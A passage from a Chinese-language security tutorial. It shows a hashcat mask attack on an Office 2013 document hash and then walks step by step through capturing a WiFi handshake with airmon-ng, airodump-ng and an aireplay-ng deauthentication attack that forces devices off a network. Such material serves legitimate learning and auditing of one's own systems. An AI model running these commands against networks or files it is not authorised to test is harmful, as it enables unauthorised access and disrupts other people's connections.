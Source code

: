 > 测试中发现 python 会出现告警信息，不过这个告警信息不会影响程序执行

```
hashcat -a 3 -m 9600 '$office$*2013*100000*256*16*cd8856416b1e14305a0e8aa8eba6ce5c*18cada7070f1410f3a836c0dfc4b9643*befcde69afeafb3e652719533c824413b00ce4a499589e5ac5bd7a7a0d3c4f3d' --force ?d?d?d?d?d?d
```

> 这里哈希头为 2013 所以使用 9600 破解模式，如果是 2010 则要使用 9500 破解模式，2007 则使用 9400 破解模式。

### WIFI 密码

要破解 WIFI 密码，首先要抓到 WIFI 的握手包，要想得到 WIFI 的握手包，就需要在监听时刚好有设备连接了该 WIFI，但这就需要运气加成，因此可以我们可以主动将该 WIFI 的设备踢下去，一般设备就会自动连接该 WIFI，此时我们就抓到握手包了。

**抓取 WIFI 握手包**

1、将网卡处于监听状态

```
airmon-ng check 
airmon-ng check kill // 关闭影响监听状态的进程
airmon-ng start wlan0
```

> wlan0 是网卡名称，一般都是 wlan0，如果不是则需要根据自己的情况进行修改，可通过 iwconfig 进行查看网卡的名称

当使用 iwconfig 查看网卡名称变为 wlan0mon 说明此时网卡已经处于监听模式了

2、扫描可用 WIFI

```
airodump-ng wlan0mon
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831104636.png)

3、获取wifi的握手包

```
airodump-ng -c (上一步扫描的 CH ) --bssid (想要破解 WIFI 的 bssid ) -w (握手文件存放目录) wlan0mon
```

这里以 ssid 为 teamssix 的 WIFI 为例

```
airodump-ng -c 1 --bssid 5E:C1:1B:A2:37:F1 -w ./ wlan0mon
```

为了顺利得到 WIFI 的握手包，可以将该 WIFI 下的设备强制踢下去

```
aireplay-ng -0 0 -a (要破解的 wifi 的 bssid ) -c (强制踢下的设备的 MAC 地址) wlan0mon
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210831105351.png)

可以看到 teamssix 这个 WIFI 有一个设备正在连接，该设备的 MAC 地址为：38:26:2C:13:D3:33，使用以下命令可以将其强制踢下去

```
aireplay-ng -0 0 -a 5E:C1:1B:A2:37:F1 -c 38:26:2C:13:D3:33 wlan0mon
```
